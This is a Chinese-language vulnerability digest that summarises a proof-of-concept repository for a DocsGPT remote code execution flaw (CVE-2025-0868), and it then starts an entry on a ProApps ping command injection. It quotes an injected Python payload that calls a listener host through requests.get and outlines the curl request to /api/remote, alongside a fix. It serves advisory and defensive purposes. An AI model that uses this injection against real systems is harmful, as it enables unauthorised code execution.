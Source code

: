 #### 📦 相关仓库

- [PoC_CVE-2025-0868](https://github.com/shreyas-malhotra/PoC_CVE-2025-0868)

#### 💡 分析概述

该CVE描述了一个针对 Docsgpt 系统的远程代码执行漏洞。相关仓库提供了一个PoC。 仓库最初只包含一个README文件。随后，添加了一个poc.sh脚本文件，该脚本通过curl命令向docsgpt.local:7091/api/remote接口发送一个POST请求，尝试利用漏洞。该请求构造了恶意payload，注入了Python代码（`__import__('requests').get('http://172.17.0.1:1234/')`），旨在实现远程代码执行。该PoC虽然简短，但展示了漏洞的可利用性。

#### 🔍 关键发现

| 序号 | 发现内容 |
|------|----------|
| 1 | 存在远程代码执行漏洞 |
| 2 | 提供了可用的PoC |
| 3 | 利用curl命令进行payload注入 |
| 4 | 漏洞影响docsgpt系统 |
| 5 | PoC利用python的requests库实现RCE |

#### 🛠️ 技术细节

> 漏洞原理：通过构造恶意请求，注入Python代码，最终实现远程代码执行。

> 利用方法：使用curl命令向docsgpt系统的/api/remote接口发送POST请求，payload中包含恶意代码。

> 修复方案：修复/api/remote接口的参数处理，过滤或转义用户输入，防止代码注入。


#### 🎯 受影响组件

```
• docsgpt
```

#### ⚡ 价值评估

<details><summary>展开查看详细评估</summary></details>

---

### CVE-2025-25705 - ProApps RCE via ping命令注入

#### 📌 漏洞信息

| 属性 | 详情 |
|------|------|
| CVE编号 | CVE-2025-25705 |
| 风险等级 | `CRITICAL` |
| 利用状态 | `漏洞利用可用` |
| 发布时间 | 2025-03-31 00:00:00 |
| 最后更新 | 2025-03-31 21:55:19 |
